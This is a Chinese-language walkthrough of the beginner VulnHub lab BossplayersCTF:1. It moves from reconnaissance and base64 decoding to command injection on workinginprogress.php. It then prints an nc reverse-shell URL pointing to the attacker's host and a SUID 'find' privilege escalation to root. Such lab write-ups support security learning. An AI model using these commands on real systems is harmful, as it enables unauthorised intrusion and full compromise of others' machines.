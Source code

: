 # BossplayersCTF

## 一、测试环境

BossplayersCTF靶机、Mac攻击机、kali2020辅助攻击机

```text
VM名称：BossplayersCTF:1
下载（镜像）：https://www.vulnhub.com/entry/bossplayersctf-1,375
目标：获得root.txt并获得root权限
运行：VirtualBox
描述：Aimed at Beginner Security Professionals who want to get their feet wet into doing some CTF's. It should take around 30 minutes to root.
```

_**靶机BossplayersCTF**_

![image-20210305203819492](https://gitee.com/Harveysn0w/mac-note_img/raw/master/image-20210305203819492.png)

## 二、信息收集

1.nmap扫描ip地址

```text
172.20.10.6
```

![image-20210305204421203](https://gitee.com/Harveysn0w/mac-note_img/raw/master/image-20210305204421203.png)

我们访问ip地址看看~

![image-20210305204542521](https://gitee.com/Harveysn0w/mac-note_img/raw/master/image-20210305204542521.png)

2.扫描详细信息~

![8505F88447E4F208478C3FBA0657FA4C](https://gitee.com/Harveysn0w/mac-note_img/raw/master/8505F88447E4F208478C3FBA0657FA4C.jpg)

3.扫描网站目录，看看有啥发现

```text
dirsearch -u http://172.20.10.6 -e *
```

![image-20210305205320691](https://gitee.com/Harveysn0w/mac-note_img/raw/master/image-20210305205320691.png)

发现了robots.txt~查看一番

4.查看robots.txt

![image-20210305205406695](https://gitee.com/Harveysn0w/mac-note_img/raw/master/image-20210305205406695.png)

嗯。base64加密，解密去~

![image-20210305205452916](https://gitee.com/Harveysn0w/mac-note_img/raw/master/image-20210305205452916.png)

```text
lol try harder bro
```

5.没啥发现。F12看一看吧~

![image-20210305205600391](https://gitee.com/Harveysn0w/mac-note_img/raw/master/image-20210305205600391.png)

找到了一串密文~貌似base64加密~

三次base64解密得到结果~

```text
workinginprogress.php
```

## 三、渗透测试

1.我们访问该页面-发现命令执行漏洞

![image-20210305221019903](https://gitee.com/Harveysn0w/mac-note_img/raw/master/image-20210305221019903.png)

```text
下面这个代码可能存在命令执行漏洞
Test ping command - [ ]
```

经测试，确实存在命令注入漏洞

![image-20210305221610418](https://gitee.com/Harveysn0w/mac-note_img/raw/master/image-20210305221610418.png)

2.反弹shell

访问下面这个链接

```text
http://172.20.10.6/workinginprogress.php?cmd=nc -e /bin/bash 172.20.10.7 1234
```

得到反弹shell

![image-20210305224324564](https://gitee.com/Harveysn0w/mac-note_img/raw/master/image-20210305224324564.png)

```text
使用python命令获得shell
python -c 'import pty;pty.spawn("/bin/bash")'
```

![image-20210305224615424](https://gitee.com/Harveysn0w/mac-note_img/raw/master/image-20210305224615424.png)

## 四、提权

查找居于SUID权限可执行文件，发现`/usr/bin/find`

```bash
find / -perm -u=s -type f 2>/dev/null
```

![image-20210305224837522](https://gitee.com/Harveysn0w/mac-note_img/raw/master/image-20210305224837522.png)

find命令提权

```bash
find . -exec /bin/sh -p \; -quit
```

![image-20210305224934822](https://gitee.com/Harveysn0w/mac-note_img/raw/master/image-20210305224934822.png)

## 五、寻找flag

![image-20210305225314319](https://gitee.com/Harveysn0w/mac-note_img/raw/master/image-20210305225314319.png)

```text
congratulations
```

## Done！

